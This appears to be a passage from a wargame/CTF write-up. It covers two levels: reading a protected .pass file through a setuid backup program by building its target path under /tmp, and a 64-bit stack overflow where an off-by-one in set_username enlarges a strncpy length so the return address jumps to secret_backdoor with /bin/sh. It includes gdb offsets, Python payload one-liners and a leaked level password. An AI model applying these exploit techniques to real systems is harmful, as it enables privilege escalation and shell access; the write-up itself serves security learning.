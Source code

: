 Let's try to work on the /tmp folder where we have more rights. Firt we recreate `./backups/.log`

```shell
cd /tmp
mkdir backups; cd backups
touch .log
```

If we try the same as above, we will have the same error, because the path `./backups//home/users/level09/.pass` doesn't exist. `open` will only create the file if it doesn't exist but not the parent folders. So let's do it :

```shell
mkdir -p backups/home/users/level09
~/level08 /home/users/level09/.pass
cat backups/home/users/level09/.pass
    fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

---

## Level09 - 64 bits - Loop vulnerability

We can see a function `secret_backdoor` that is able to execute a given string. But this function is not called. We have to find a way to redirect the code.

### Resolve

the function `set_username` fills 41 characters inside `msg.usr` instead 40 characters. As `msg` data are stored in a structure, data are contiguous. It means we are able to override the max length of the message. It is useful, because this length is used by `strncpy`. We are able to create an overflow.

```shell
info function secret_backdoor
0x000055555555488c  secret_backdoor

b*handle_msg+80 # before set_username
run
info frame
  Stack level 0, frame at 0x7fffffffe4e0: (...)
  rip at 0x7fffffffe4d8    # handle_msg return eip

p $rbp-0xc0 # t_msg msg
  $1 = (void *) 0x7fffffffe410

p /d 0x7fffffffe4d8 - 0x7fffffffe410 # eip - msg
  $3 = 200 # offset

USERNAME_INPUT: 'A' * 40 + (OFFSET + 8) # 8 bytes to write the x64 address
MESSAGE_INPUT:  'B' * OFFSET + SECRET_BACKDOOR_ADDRESS
BACKDOOR_INPUT: '/bin/sh'

p 200 + 8
  $2 = 0xd0
```

Perfect, we have everything we need

```shell
python -c "print 'A' * 40 + '\xd0'" > /tmp/exploit09
python -c "print 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'" >> /tmp/exploit09
echo "/bin/sh" >> /tmp/exploit09

cat /tmp/exploit09 - | ~/level09
```

